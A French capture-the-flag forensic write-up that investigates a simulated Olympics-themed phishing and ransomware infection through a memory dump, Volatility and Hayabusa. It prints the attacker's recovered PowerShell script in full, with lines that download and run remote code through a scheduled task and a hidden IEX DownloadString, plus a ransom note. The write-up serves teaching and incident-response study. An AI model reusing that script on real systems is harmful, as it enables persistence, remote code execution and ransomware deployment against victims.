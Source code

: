 # Enquête sur le phishing des JO : Retracer l'attaque

* type: Forensic
* points : 500
* auteur : [Clara Chalumeau aka Clar'hacker](https://www.linkedin.com/in/clara-chalumeau/) 

---


## Partie 1/2

### Synopsis

Mike O'Soft a été averti d'une campagne de phishing par le groupe THE HAMOR. Une des personnes ayant reçu le mail de phishing en question, s'est faite piegée.

Vous avez pour mission de mener l'enquête. Heureusement pour vous, les équipes du ministère ont réalisé un dump mémoire sur la machine. Dans la suite de votre enquête, un dump réseau vous sera confié.

Sauriez-vous retracer ce qu'il s'est passé sur ce poste ?

Pour résoudre ce challenge, vous devez répondre aux questions suivantes :

1 - Quel est le nom du raccourci malveillant ?

2 - Quel est le nom de la scheduled task créé ?

3 - Quel script est lancé par cette scheduled task ?

Format du flag SHLK{'nom-fichier'-'scheduled task-'script'}

Exemple 1 - File : ctf\shutlock.test

2 - scheduled task : ScheduleTaskName

3 - script : ThisIsTheScript.sh

SHLK{shutlock.test-ScheduleTaskName-ThisIsTheScript.sh}

### First encounter

Un dump, une capture du bureau, et c'est à nous de jouer. Le système a été compromis, à nous de décrouvrir comment.

L'examen rapide de la capture d'écran donne quelques informations qui nous seront certainement utile plus tard

![capture d'écran](./1_RESOLU/Ordi.png)

Cela va tourner autour d'un PDF malveillant, et nous avons la note de rançon, avec ces informations, il est temps de commencer à creuser.

### Méthode 1 full volatility (aka quand on est pas un SoC Analyst, mais que l'on a des idées)

Une des façon de trouver le 1er flag, est de commencer par bien lire ce qui nous est demandé, nous allons donc commencer par rechercher le raccourci malveillant. On sait que sous windows, l'extension sera en .lnk, et grace au screen, on sait que ça sera lié à un PDF. 

```shell
vol -f 1_RESOLU/dump.raw windows.file | grep -iE "*\.pdf\.lnk"
```

La réponse arrive en quelques minutes:

```
0xa70451a45a80.0\Users\clara\Downloads\Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024\Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk        216
```
Nous avons notre première information. La seconde est un peu plus tricky, mais pas si compliquée à trouver.

Le poste a été chiffré, nous allons donc chercher un script powershell malveillant. Pour cela, nous allons pouvoir nous nous appuyer sur les fichiers EVTX (journaux système Windows) dans notre tâche.

Pour cela, nous allons devoir extraire le fichier qui nous intéresse, nous allons utiliser de nouveau notre ami volatiliy et une petite regex pour trouver ce dont nous avons besoin.

```shell
vol -f 1_RESOLU/dump.raw windows.file | grep -iE ".*powershell.*\.evtx"
```

Le retour arrive rapidement:

```shell
0xa704519a3db0  \Windows\System32\winevt\Logs\Microsoft-Windows-PowerShell%4Operational.evtx    216
```

Une fois la cible trouvée, nous allons devoir l'extraire de la mémoire

```shell
vol -f 1_RESOLU/dump.raw windows.dump --virtaddr 0xa704519a3db0

Volatility 3 Framework 2.7.0
Progress:  100.00               PDB scanning finished                        
Cache   FileObject      FileName        Result

DataSectionObject       0xa704519a3db0  Microsoft-Windows-PowerShell%4Operational.evtx  file.0xa704519a3db0.0xa7044ea12090.DataSectionObject.Microsoft-Windows-PowerShell%4Operational.evtx.dat
SharedCacheMap  0xa704519a3db0  Microsoft-Windows-PowerShell%4Operational.evtx  file.0xa704519a3db0.0xa7044e4f5260.SharedCacheMap.Microsoft-Windows-PowerShell%4Operational.evtx.vacb
```
L'information dont nous avons besoin se situe dans le fichier qui se termine par vacb, un petit passage par evtx_dump pour rendre le fichier lisible, et nous trouvons le script.
```json
{
  "Event": {
    "#attributes": {
      "xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
    },
    "EventData": {
      "MessageNumber": 1,
      "MessageTotal": 1,
      "Path": "",
      "ScriptBlockId": "07925adc-3e1c-4463-a0cc-9d12522ebede",
      "ScriptBlockText": "$IP_addr = '172.21.195.17:5000'\r\n\r\n$urlFakeJob = \"http://$IP_addr/Holmes/Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf\"\r\n$urlTask = \"http://$IP_addr/Holmes/GetFileInfo.ps1\"\r\n$fakePlaceOffer = 'Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf'\r\n$TaskFile = 'GetFilesInfo.ps1'\r\n\r\n#Get the lure pdf\r\nInvoke-WebRequest -Uri $urlFakeJob -OutFile $fakePlaceOffer\r\n\r\n# Open the PDF file with the default PDF viewer\r\nStart-Process -FilePath $fakePlaceOffer\r\n\r\n### Schedule task\r\n$taskName = \"IGotYourFileInfo\"\r\n\r\n# Create the scheduled task that get some file information\r\n$cmd = \"Invoke-WebRequest -Uri $urlTask -OutFile $TaskFile ; Start-Process -FilePath $TaskFile\"\r\nschtasks /create /tn $taskName /sc HOURLY /tr $cmd\r\n\r\n#Encrypt some file\r\n\r\npowershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile  -c \"& {IEX ((New-Object Net.WebClient).DownloadString('http://$IP_addr/Holmes/Encrypt.ps1'))}\"\r\n\r\n## Change wallpaper\r\n$webClient = New-Object System.Net.WebClient\r\n$wallpaperUrl = \"http://$IP_addr/Holmes/wallpaper.jpg\"\r\n$wallpaperPath = \"$env:USERPROFILE\\Desktop\\wallpaper.jpg\"\r\n$webClient.DownloadFile($wallpaperUrl, $wallpaperPath)\r\n\r\n## Set the wallpaper\r\n$regKey = \"HKCU:\\Control Panel\\Desktop\"\r\nSet-ItemProperty -Path $regKey -Name Wallpaper -Value $wallpaperPath\r\n$wallpaperStyle = \"3\"\r\nSet-ItemProperty -Path $regKey -Name WallpaperStyle -Value $wallpaperStyle\r\n$tileWallpaper = \"0\"\r\nSet-ItemProperty -Path $regKey -Name TileWallpaper -Value $tileWallpaper\r\n\r\n# Forcer l'actualisation du bureau\r\nStart-Process -FilePath \"RUNDLL32.EXE\" -ArgumentList \"USER32.DLL,UpdatePerUserSystemParameters ,1 ,True\" -Wait\r\n\r\n## Create text file\r\n$fileContent = \"YOU HAVE BEEN INFECTED BY THE HAMOR FIND THE KEY TO RETREIVE YOUR FILE\"\r\nSet-Content \"$env:USERPROFILE\\Desktop\\instructions.txt\" -Value $fileContent\r\n# Open text file\r\nInvoke-Item \"$env:USERPROFILE\\Desktop\\instructions.txt\"\r\n\r\n"
    },
    "System": {
      "Channel": "Microsoft-Windows-PowerShell/Operational",
      "Computer": "DeanGilmor",
      "Correlation": {
        "#attributes": {
          "ActivityID": "3476582E-B7DF-0003-AC7D-7634DFB7DA01"
        }
      },
      "EventID": 4104,
      "EventRecordID": 133,
      "Execution": {
        "#attributes": {
          "ProcessID": 13428,
          "ThreadID": 2576
        }
      },
      "Keywords": "0x0",
      "Level": 3,
      "Opcode": 15,
      "Provider": {
        "#attributes": {
          "Guid": "A0C1853B-5C40-4B15-8766-3CF1C58F985A",
          "Name": "Microsoft-Windows-PowerShell"
        }
      },
      "Security": {
        "#attributes": {
          "UserID": "S-1-5-21-1569816960-1500504362-1823058107-1000"
        }
      },
      "Task": 2,
      "TimeCreated": {
        "#attributes": {
          "SystemTime": "2024-06-07T19:29:08.462113Z"
        }
      },
      "Version": 1
    }
  }
}
```

Le responsable est donc:

```powershell
ScriptBlockText": "$IP_addr = '172.21.195.17:5000'

$urlFakeJob = \"http://$IP_addr/Holmes/Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf\"
$urlTask = \"http://$IP_addr/Holmes/GetFileInfo.ps1\"
$fakePlaceOffer = 'Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf'
$TaskFile = 'GetFilesInfo.ps1'

#Get the lure pdf
Invoke-WebRequest -Uri $urlFakeJob -OutFile $fakePlaceOffer

# Open the PDF file with the default PDF viewer
Start-Process -FilePath $fakePlaceOffer

### Schedule task
$taskName = \"IGotYourFileInfo\"

# Create the scheduled task that get some file information
$cmd = \"Invoke-WebRequest -Uri $urlTask -OutFile $TaskFile ; Start-Process -FilePath $TaskFile\"
schtasks /create /tn $taskName /sc HOURLY /tr $cmd

#Encrypt some file

powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile  -c \"& {IEX ((New-Object Net.WebClient).DownloadString('http://$IP_addr/Holmes/Encrypt.ps1'))}\"

## Change wallpaper
$webClient = New-Object System.Net.WebClient
$wallpaperUrl = \"http://$IP_addr/Holmes/wallpaper.jpg\"
$wallpaperPath = \"$env:USERPROFILE\\Desktop\\wallpaper.jpg\"
$webClient.DownloadFile($wallpaperUrl, $wallpaperPath)

## Set the wallpaper
$regKey = \"HKCU:\\Control Panel\\Desktop\"
Set-ItemProperty -Path $regKey -Name Wallpaper -Value $wallpaperPath
$wallpaperStyle = \"3\"
Set-ItemProperty -Path $regKey -Name WallpaperStyle -Value $wallpaperStyle
$tileWallpaper = \"0\"
Set-ItemProperty -Path $regKey -Name TileWallpaper -Value $tileWallpaper

# Forcer l'actualisation du bureau
Start-Process -FilePath \"RUNDLL32.EXE\" -ArgumentList \"USER32.DLL,UpdatePerUserSystemParameters ,1 ,True\" -Wait

## Create text file
$fileContent = \"YOU HAVE BEEN INFECTED BY THE HAMOR FIND THE KEY TO RETREIVE YOUR FILE\"
Set-Content \"$env:USERPROFILE\\Desktop\\instructions.txt\" -Value $fileContent
# Open text file
Invoke-Item \"$env:USERPROFILE\\Desktop\\instructions.txt\"
```

Voilà, nous avons désormais la totalité des informations pour créer le flag

```
SHLK{Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk-IGotYourFileInfo-GetFilesInfo.ps1}
```

### Méthode 2 on industrialise un peu tout ça (aka on fait chauffer la tronçoneuse préparée hayabusa)

La méthode avec volatility est bien, mais elle est fastidieuse, on doit convertir nos evtx en json, quand on ne sais pas où chercher, cela peut prendre du temps, et s'il existait une alternative ?

Il existe deux outils pour cela, [Chainsaw](https://github.com/WithSecureLabs/chainsaw) et [Hayabusa](https://github.com/Yamato-Security/hayabusa). Ils permetent de parser les logs EVTX sans conversion préalable, et permettent d'autres actions Uber cool.

Nous allons utiliser Hayabusa et son option "search". La team a signée son méfait dans le notepad, nous allons pouvoir chercher le mot "HAMOR" dans les logs.

Cette partie se fait une fois que tout les logs ont été extrait et renommé en .evtx

![retour Hayabusa](./1_RESOLU/hayabusa.png)
